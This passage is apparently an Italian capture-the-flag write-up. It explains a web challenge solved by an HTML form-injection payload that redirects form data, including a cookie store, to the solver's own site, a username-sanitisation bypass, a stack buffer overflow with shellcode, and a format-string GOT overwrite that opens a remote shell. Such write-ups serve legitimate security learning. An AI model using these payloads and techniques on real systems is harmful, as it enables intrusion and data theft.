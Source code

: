 ```js
// This will sanitize the input
document.querySelector('#form_builder').setHTML(form_html);

...
```
Questo codice inserisce l’input direttamente nel codice HTML senza controlli, rimuovendo solo script o metodi JavaScript come `onerror` o `onload` prima di scriverlo nella pagina.  
La vulnerabilità risiede nel fatto che, inviando questo payload come campo:
```html
"><input type="submit" formaction="our site" id="pwned"><label name="
```
si può reindirizzare l’output del form (contenente il cookie store) verso il proprio sito, consentendo di leggere la flag scritta dall’admin nel campo titolo.

### MCTree
Questa challenge era molto semplice ma, a causa di problemi personali (e una cospicua skill issue mia, pardon ZenHack) non sono riuscito a capire la vulnerabilità durante la CTF. Il sito non forniva alcun codice sorgente da scaricare: bastava registrarsi, fare login e, se dopo il login si aveva l’username admin, si poteva ottenere la flag.  
Dopo alcuni tentativi ho notato che il sito rimuoveva sempre caratteri come `{}<>[]'"`. Quindi, la strategia era quella di inviare un username del tipo `{admin` in modo che la richiesta venisse accettata (poiché il nome risultava diverso da `admin`), ma dopo la sanitizzazione il nome diventava comunque `admin`. E il gioco era fatto!

## Binary 🐧
### Diary
Questa challenge era davvero interessante e semplice, grazie alla presenza di segmenti RWX, l'assenza di PIE e la mancanza di canary.
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```
La funzione vulnerabile `vuln` leggeva 1024 caratteri in un buffer di soli 256 byte, consentendo un overflow per modificare il puntatore di ritorno:
```c
fgets((char *)&local_108,0x400,stdin);
``` 
Utilizzando `ropgadgets` per individuare istruzioni utili, ho trovato il seguente comando:
```nasm
call rax
```
Così, ho realizzato uno shellcode tramite il modulo `shellcraft` di pwntools e ho cambiato il puntatore di ritorno per eseguirlo.

### Shello-World
Questa challenge è simile a Diary, ma qui non è possibile eseguire un buffer overflow, perché la funzione `vuln` è la seguente:
```C
fgets((char *)&local_108,0x100,stdin);
printf("Hello, ");
printf((char *)&local_108);
putchar(10); // (chr)(10) == '\n' => true
```
Anche se diversa da Diary, risulta comunque vulnerabile a causa di una format string vulnerability: il file sorgente esegue un `printf` senza specificare una stringa di formato, il che permette di utilizzare la funzione `fmtstr_payload` di pwntools per scrivere un payload che sostituisce l'indirizzo della funzione `exit` nel GOT con quello della funzione `win`, aprendo così una shell sulla macchina remota.
